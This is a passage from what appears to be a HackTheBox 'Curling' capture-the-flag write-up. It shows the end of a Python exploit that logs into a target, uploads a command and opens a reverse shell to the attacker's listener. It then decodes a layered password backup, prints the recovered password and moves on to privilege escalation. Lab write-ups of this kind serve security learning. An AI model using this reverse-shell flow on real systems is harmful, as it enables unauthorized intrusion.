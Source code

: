 ```py
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Get the security values
    getValues(rhost)
    # Log in and get security token
    login(rhost,username,password,return_value,other)
    # Upload the cmd
    uploadCmd(rhost,upsecurity)
    # Get the rev shell
    getReverse(rhost,lhost,lport)
if __name__ == '__main__':
    main()
```

# www-data -> Floris

Now that we already have a shell on this box, let's become root.

On the home page from floris we see a interesting archive

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2008:31:03.png)

It's using some kind of magic... encript and zipped, after poking arround we get how to solve it

```sh
xxd -r password_backup > 1
file 1
bzcat 1 > 2
file 2
zcat 2 > 3
file 3
bzcat 3 > 4
file 4
tar -xf 4
ls
cat password.txt
```

We get the password from Floris - `5d<wdCbdZu)|hChXll`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2008:34:19.png)

So, we become Floris (we log in ssh, it's better)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2008:35:32.png)

Now, we will get root

# Floris -> root

Let's run `linpeas` to see what we can do
